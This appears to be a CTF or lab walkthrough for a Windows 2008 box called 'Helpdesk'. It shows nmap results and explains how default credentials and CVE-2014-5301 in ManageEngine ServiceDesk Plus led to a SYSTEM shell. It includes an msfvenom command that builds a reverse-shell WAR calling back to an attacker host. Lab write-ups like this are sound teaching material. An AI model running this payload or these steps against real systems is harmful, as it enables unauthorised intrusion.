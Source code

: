 # Helpdesk
### Enumeration
```
# Nmap 7.92 scan initiated Wed Apr 20 19:01:41 2022 as: nmap -sCV -v -p- -oN tcp.out 192.168.201.43
Nmap scan report for ip-192-168-201-43.eu-west-1.compute.internal (192.168.201.43)
Host is up (0.015s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags:
|   /:
|     JSESSIONID:
|_      httponly flag not set
|_http-title: ManageEngine ServiceDesk Plus
Service Info: Host: HELPDESK; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
|_clock-skew: mean: 2h20m00s, deviation: 4h02m29s, median: 0s
| smb2-time:
|   date: 2022-04-20T19:06:05
|_  start_date: 2022-04-20T19:01:25
| smb2-security-mode:
|   2.0.2:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: HELPDESK
|   NetBIOS computer name: HELPDESK\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-04-20T12:06:05-07:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| nbstat: NetBIOS name: HELPDESK, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ba:58:d4 (VMware)
| Names:
|   HELPDESK<00>         Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  HELPDESK<20>         Flags: <unique><active>

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 20 19:06:44 2022 -- 1 IP address (1 host up) scanned in 303.43 seconds
```

##### 8080
Webserver running ManageEngine ServiceDesk Plus 7.6.0. Looking for default credentials, we find `administrator:administrator`, which work to login. There's also an authenticated RCE vulnerability in this version (CVE-2014-5301), and I found an exploit on [GitHub](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py).

The exploit required first generating a payload using `msfvenom`:

```
msfvenom -p java/reverse_shell_tcp LHOST=192.168.49.219 LPORT=9001 -f war > shell.war
```

Then I ran the exploit after setting up a netcat listener on port 9001, and got a shell as `nt authority\system`.